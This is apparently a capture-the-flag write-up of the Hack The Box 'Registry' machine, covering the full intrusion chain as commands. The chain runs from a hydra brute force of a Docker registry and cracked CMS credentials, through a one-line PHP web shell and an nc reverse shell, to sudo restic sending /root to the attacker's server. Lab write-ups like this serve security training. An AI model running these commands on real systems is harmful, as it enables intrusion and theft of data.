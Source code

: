 # REGISTRY write-up
![](images/logo.png)

Registry is a hard difficulty Linux machine, which features Docker and the Bolt CMS running on Nginx. Docker registry API access is configured with default credentials, which allows us to pull the repository files. Using the disclosed information it is possible to obtain an initial foothold. User credentials for Bolt CMS can be obtained, and exploiting the CMS provides us with access to the www-data user, who has a sudo entry to perform backups as root using the restic program. After taking a backup of the root folder remotely and mounting the repository with restic, the root flag is obtained.

**Setup**

Target Subject | More info
------------ | -------------
Enumeration | [https://medium.com/basic-linux-privilege-escalation/basic-linux-privilege-escalation-966de11f9997](https://medium.com/basic-linux-privilege-escalation/basic-linux-privilege-escalation-966de11f9997)
Port Forwarding | ([https://www.ssh.com/ssh/tunneling/example](https://www.ssh.com/ssh/tunneling/example)
Docker API | [https://docs.docker.com/registry/](https://docs.docker.com/registry/)
Web Exploitation | [https://www.youtube.com/watch?v=InBCxzX3Od8&feature=emb_title](https://www.youtube.com/watch?v=InBCxzX3Od8&feature=emb_title)
Restic Exploitation | [https://restic.net/](https://restic.net/)

I decided to use COMMANDO from FireEye for this machine because I initially thought this was a Windows box.
#
**INITIAL RECON**

- [x] services? used -  **NMAP**
![](images/nmap.png)
- [x] default creds anywhere?  -  **WEB**
- username/password

- [ ] If HTTP, webpage discoveries (manual)?
- nothing special

- [x] If HTTP, directory discovery (automated)? - **GOBUSTER**
- [ ] SMB? -
- [x] Brute force password anywhere? - **HYDRA**

**Scan assessment**:

-   22/tcp - Typical OpenSSH2.0 running on a Ubuntu box.
    
-   80/tcp & 443/tcp - running nginx 1.14.0. TLS certificate has a subdomain of **docker.registry.htb**

-- Added: docker.registry.htb to my hosts file.     --

#
**INITIAL ACCESS**

*Docker Registry predictable  username password*
-   There's a good exploit explanation here: [https://www.notsosecure.com/anatomy-of-a-hack-docker-registry/](https://www.notsosecure.com/anatomy-of-a-hack-docker-registry/)
![](images/hydra.png)
-   navigating to http://docker.registry.htb/v2/ produces a log-in prompt   

    -   brute forcing is needed since no other information is present. I tried typical username of ADMIN: **bash.exe  -c "hydra -e nsr -l admin -P /usr/share/wordlists/rockyou.txt docker.registry.htb http-get /v2/ -Vf"**

BruteForce was successful because of a predictable username/password combo and hydra's (**-e nsr**) which does 3 password attempts: the username as the password, username with blank password, and backwards username as password.

#
**OBTAIN USER FLAG**
1. According the website discovered during my recon, check for docker images then eventually download the manifest file: http://docker.registry.htb/v2/bolt-image/manifests/latest
    - Notice the blobs in the manifest file
![](images/manifest.png)
2. Download the blobs (i.e. the docker image pieces of the container):
    - $cred = New-Object System.Management.Automation.PSCredential -ArgumentList @('admin',(ConvertTo-SecureString -String 'admin' -AsPlainText -Force)) *** This creates an admin:admin object that can be used to log into the site.
    - Select-String .\manifests.txt -Pattern blobsum | % {($_ -split "\s+")[2] -replace '"',""} | % { wget -Credential $cred "http://docker.registry.htb/v2/bolt-image/blobs/$_" -PassThru -OutFile "$_".Replace(':','_') }
![](images/wget.gif)
--NOTE--
Windows has an issues with filenames containing a semicolon ( : ), so I had to replace the semicolon with an underscore .
3.    Check the file types, bash.exe  -c  "file sha*". According to the registry website. The files are typically stored as tarballs. So they'll need to be renamed in order to extract them
    - Rename the files to tar.gz: ls "sha*" | ren -NewName {$_.name + ".tar.gz" }
    - use tar.exe to extract: ls *.tar.gz | % {tar.exe -xvf $_}
4. This is a HTB machine so typically the HOME directories and webserver DIR(s) are the most important. Lets start at with the **root** DIR:
     - cat the bashrc_history file in ROOT's DIR and notice username for ssh
![](images/bashrc.png)

    - cat viminfo file in ROOT's DIR and notice prior vim usage.
    - cat ..\etc\profile.d\01-ssh.sh

![](images/01-ssh.png)
5. The passphrase for the ssh key is there: **bolt:GkOcz221Ftb3ugog**
6. Use id_rsa private key to log in and cat user.txt

#
**RECON WITH ACCESS**
7. enumerate bolt DIR
     - Nothing interesting
8. enumerate webserver DIR
    - notice the restic backup service in /var/www/html/backup.php
![](images/backupPHP.png)
    - notice a .db file readable by everyone. I tried to look for 'admin', 'bolt', and 'root'. Using 'root' was fruitful
![](images/boltDB.png)

9. Crack with John: bash -c "john --wordlist=/usr/share/wordlists/rockyou.txt database.hash"
    - discover creds: **admin:strawberry**
10. Looked like installed app is called bolt (i.e. bolt/bolt)
    - https://github.com/bolt/bolt (the CMS' github)

#
**OBTAIN ROOT FLAG**
1.    Navigate to registry.htb/bolt/bolt
- login using admin creds
2. Machine doesn't allow reverse shells to attack machine so open a nc listener as user bolt and create a RCE php file
- nc -nvvlp 1337
- php:
> <?php  $cmd=$_GET['cmd']; system($cmd);

    
3.  Navigate to CONFIGURATION >> MAIN CONFIGURATION.
4.  Add php as one of the allowed file types.    
5.  Upload RCE php and navigate to the following: **registry.htb/bolt/files/shell.php?cmd=nc.traditional -ne /bin/bash 127.0.0.1 1337**
![](images/ncReverse.png)
7.  sudo -l and notice:

>     User www-data may run the following commands on bolt:
>             (root) NOPASSWD: /usr/bin/restic backup -r rest*

Since I found backup earlier and then again as sudo -l, I figured that the vulnerability was involving a rogue backup operation using restic. I switch over to the kali container on COMMANDO to download tools that I would need.

  

1.  Install the restic service: **apt install restic**    
2.  pull the rest server: [https://github.com/restic/rest-server](https://github.com/restic/rest-server)    
3.  initial repository directory: restic init -r /tmp/restic (/tmp/restic is default directory for rest-server according to its documentation)    
4.  install rest-server: **CGO_ENABLED=0 go build -o rest-server ./cmd/rest-server**    
5.  run server: **./rest-server --no-auth** (default listening port is 8000)    
6.  Setup reverse SSH tunnel: **ssh bolt@registry.htb -i bolt.key -R 8000:localhost:8000**    
7.  Invoke sudo vulnerability on victim as www-data: **sudo /usr/bin/restic backup -r rest:http://localhost:8000 /root**
    

The victim /root DIR was sent back to my attack machine. Then it was just a matter of restoring the back up and obtaining the root.txt

1.  restic restore -v -t /tmp/ -r /tmp/restic/ 56e60c8fbac4cd31f134f4af22ffe97fe95b9653c522e049f66aa6f1eaf65b3c
    - Can you also just do **latest** as well as opposed to using the snapshot hash unless you made the victim backup multiple tings.
2. cat root.txt
![](images/end.png)
